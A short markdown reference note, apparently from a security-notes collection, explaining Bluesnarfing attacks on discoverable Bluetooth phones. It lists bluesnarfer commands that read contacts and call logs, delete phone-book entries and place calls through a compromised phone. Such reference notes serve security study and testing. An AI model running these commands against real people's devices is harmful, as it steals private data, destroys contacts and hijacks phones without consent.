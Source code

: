 # Bluesnarfing

## Notes

Bluesnarfing is the process of exploiting vulnerabilities found in certain Bluetooth firmware in order to 
steal information from a wireless device. Successful attacks are capable of stealing contacts, calendar info, 
e-mail, and text messages when the Bluetooth device is turned on and set to discoverable mode.

## Examples

Read the first 50 entries from the phone book on a phone:

    # bluesnarfer -r 1-50 -b <MAC address of phone>

The first 10 received calls on a phone:

    # bluesnarfer -s RC -r 1-10 -b <MAC address of phone>

Delete the first 10 entries in the contacts list:

    # bluesnarfer -w 1-10 -b <MAC address of phone>

Call a phone number through the compromised phone:

    # bluesnarfer -c 'ATDT:<phone number>;' -b <MAC address of phone>

## Tools

* [Bluesnarfer](https://www.kali.org/tools/bluesnarfer/)
